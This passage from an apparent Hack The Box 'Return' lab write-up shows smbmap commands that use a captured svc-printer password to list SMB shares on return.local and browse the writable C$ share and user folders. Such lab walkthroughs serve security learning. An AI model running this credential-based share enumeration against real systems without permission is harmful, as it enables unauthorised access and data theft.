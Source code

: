 ## SMBMap

We can also look at SMB now we have credentials:

```sh
┌──(root💀kali)-[~/htb/return]
└─# smbmap -H return.local -u svc-printer -p "1edFg43012\!\!"
[+] IP: return.local:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ ONLY       Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

We have read/write access to C$, let's look around:

```sh
┌──(root💀kali)-[~/htb/return]
└─# smbmap -H return.local -u svc-printer -p "1edFg43012\!\!" -r C$
[+] IP: return.local:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        C$                                                      READ, WRITE
        <SNIP>
        dw--w--w--                0 Mon Sep 27 12:46:28 2021    Program Files
        dr--r--r--                0 Wed May 26 10:57:54 2021    Program Files (x86)
        dr--r--r--                0 Mon Sep 27 12:46:01 2021    ProgramData
        dr--r--r--                0 Fri Jul 16 14:43:37 2021    Recovery
        dr--r--r--                0 Thu May 20 13:42:27 2021    System Volume Information
        dw--w--w--                0 Wed May 26 09:51:28 2021    Users
        dr--r--r--                0 Mon Sep 27 12:49:06 2021    Windows

┌──(root💀kali)-[~/htb/return]
└─# smbmap -H return.local -u svc-printer -p '1edFg43012!!' -r C$/Users                                                               
[+] IP: return.local:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        C$                                                      READ, WRITE
        .\C$Users\*
        dr--r--r--                0 Mon Sep 27 12:40:38 2021    Administrator
        dr--r--r--                0 Thu May 20 21:07:06 2021    All Users
        dw--w--w--                0 Thu May 20 20:08:51 2021    Default
        dr--r--r--                0 Thu May 20 21:07:06 2021    Default User
        fr--r--r--              174 Thu May 20 21:02:48 2021    desktop.ini
        dw--w--w--                0 Wed May 26 09:50:07 2021    Public
        dr--r--r--                0 Wed May 26 09:51:28 2021    svc-printer

┌──(root💀kali)-[~/htb/return]
└─# smbmap -H return.local -u svc-printer -p '1edFg43012!!' -r C$/Users/svc-printer
[+] IP: return.local:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        C$                                                      READ, WRITE
        .\C$Users\svc-printer\*
        dr--r--r--                0 Wed May 26 09:51:28 2021    AppData
        dr--r--r--                0 Wed May 26 09:51:28 2021    Application Data
        dr--r--r--                0 Wed May 26 09:51:28 2021    Cookies
        dw--w--w--                0 Mon Sep 27 13:59:35 2021    Desktop
        dw--w--w--                0 Sat Oct 16 16:54:52 2021    Documents
        dw--w--w--                0 Wed May 26 09:51:28 2021    Downloads
        <SNIP>
```
